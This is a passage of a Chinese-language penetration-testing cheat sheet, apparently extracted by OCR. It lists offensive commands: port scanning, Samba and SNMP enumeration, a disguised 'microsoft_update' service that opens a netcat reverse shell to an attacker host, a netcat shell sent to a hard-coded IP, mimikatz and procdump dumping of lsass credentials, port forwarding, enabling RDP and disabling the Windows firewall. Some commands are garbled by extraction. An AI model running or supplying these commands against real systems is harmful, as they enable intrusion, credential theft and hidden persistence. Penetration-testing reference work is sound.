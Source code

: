 for i in {101..102}; do nc -vv -n -w 1 192.168.56.> $i 21-25 -z; done
Unicornscan
注：Unicornscan 是一个信息收集和安全审计的工具。
us -H -msf -Iv 192.168.56.101 -p 1-65535
us -H -mU -Iv 192.168.56.101 -p 1-65535
-H 在生成报告阶段解析主机名
-m 扫描类型 (sf - tcp, U - udp)
-Iv - 详细
使用 Xprobe2 识别操作系统指纹
xprobe2 -v -p tcp:80:open IP
枚举 Samba
nmblookup -A target
smbclient //MOUNT/share -I target -N
rpcclient -U "" target
enum4linux target
枚举 SNMP
snmpget -v 1 -c public IP
snmpwalk -v 1 -c public IP
snmpbulkwalk -v2c -c public -Cn0 -Cr10 IP
实用的 Windows cmd 命令
net localgroup Users
net localgroup Administrators
search dir/s *.doc
system("start cmd.exe /k > $cmd")
sc create microsoft_update binpath="cmd /K start c:\nc.exe -d ip-of-hacker port -e cmd.exe" start= auto error= ignore
/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv 23.92.17.103 7779
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp 32 位系统
C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp 64 位系统
PuTTY 连接隧道
转发远程端口到目标地址
plink.exe -P 22 -l root -pw "1234" -R 445:127.0.0.1:445 IP
Meterpreter 端口转发
# https://www.offensive-security.com/metasploit-unleashed/portfwd/
# 转发远程端口到目标地址
meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
kali > rdesktop 127.0.0.1:3389
开启 RDP 服务
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
关闭 Windows 防火墙
netsh firewall set opmode disable
Meterpreter VNC\RDP
# https://www.offensive-security.com/metasploit-unleashed/enabling-remote-desktop/
run getgui -u admin -p 1234
run vnc -p 5043
使用 Mimikatz
获取 Windows 明文用户名密码
git clone https://github.com/gentilkiwi/mimikatz.git
privilege::debug
sekurlsa::logonPasswords full
获取哈希值